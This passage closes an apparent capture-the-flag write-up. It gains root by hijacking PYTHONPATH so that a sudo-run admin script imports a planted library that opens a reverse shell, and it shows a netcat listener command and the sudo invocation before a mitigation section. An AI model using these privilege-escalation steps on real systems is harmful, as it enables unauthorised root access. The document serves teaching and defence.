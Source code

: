This library only contains the `make_archive` function and when the function is called, it'll open a reverse shell to our machine. Let's save this, and go back to our box and start an `netcat` listener.

```
$ nc -lvnp 4444
```

Now, let's run the `admin_tasks.sh` script using `sudo`, but this time, we will define our own path using the `PYTHONPATH` variable.

```
$ sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh
[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
```

Choosing option 6 will run the python script, importing our malicious library, and executing our function. Our reverse shell connects, and we have successfully executed our privileges. Let's grab the root flag.

![](images/root-flag.PNG)

***

### Mitigation

- A web administrator should know that the `robots.txt` file only works to prevent benevolent bots, like web crawlers, and doesn't prevent humans or bad bots from seeing directories. Actually, this file is a great way to enumerate hidden directories. This paired with plaintext credentials that are available publicly are a recipe for disaster.

- Avoid keeping management software public facing. If it needs to be publicly available, an administrator should strive to keep it up to date, as a vulnerability poses significant risk.

- Special caution should be taken when a user can run certain commands with escalated privileges. This risk is especially amplified when a user can run a command that executes a python script in this manner. Preventing the paths that Python uses to search for libraries from being writable may help mitigate the risks associated with this.
